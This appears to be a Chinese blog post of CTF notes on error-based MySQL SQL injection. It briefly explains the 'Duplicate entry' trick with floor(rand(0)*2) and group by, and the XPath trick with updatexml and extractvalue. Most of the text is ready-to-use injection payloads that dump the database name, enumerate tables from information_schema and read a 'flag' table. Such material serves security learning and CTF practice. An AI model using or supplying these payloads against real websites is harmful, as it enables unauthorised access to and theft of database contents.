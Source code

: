 两种姿势：

一、Duplicate entry报错
```
Duplicate entry报错：
一句话概括就是多次查询插入重复键值导致count报错从而在报错信息中带入了敏感信息。
关键是查询时会建立临时表存储数据，不存在键值就插入，group by使插入前rand()会再执行一次，存在就直接值加1，下面以rand(0)简述原理：

首先看看接下来会用到的几个函数
Count()计算总数
Concat()连接字符串
Floor()向下取整数
rand()是随机取（0，1）中的一个数，但是给它一个参数后0，即rand(0),并且传如floor()后，即：floor(rand(0)*2)它就不再是随机了，序列0110110
```

payload:

```
查库：
Union select count(*),concat(database(),0x26,floor(rand(0)*2))x from information_schema.columns group by x;--+

查两次表：
Union select count(*),concat((select table_name from information_schema.tables where table_schema='sqli' limit 0,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x;--+

Union select count(*),concat((select table_name from information_schema.tables where table_schema='sqli' limit 1,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x;

查数据：
1 Union select count(*),concat((select flag from flag),0x26,floor(rand(0)*2))x from information_schema.columns group by x;
```

![](https://img-blog.csdnimg.cn/20210311223529974.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/20210311223537188.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

二、Xpath报错

```
主要的两个函数： Mysql5.1.5
1. updatexml():对xml进行查询和修改
2. extractvalue():对xml进行查询和修改

都是最大爆32位。
and updatexml(1,concat(0x26,(version()),0x26),1);
and (extractvalue(1,concat(0x26,(version()),0x26)));
```

payload:
```
1′ and updatexml(1,concat(0x26,database(),0x26),1);–+
1 union select updatexml(1,concat(0x7e, (select(group_concat(table_name))from information_schema.tables where table_schema=“sqli”) ,0x7e),1);
```

---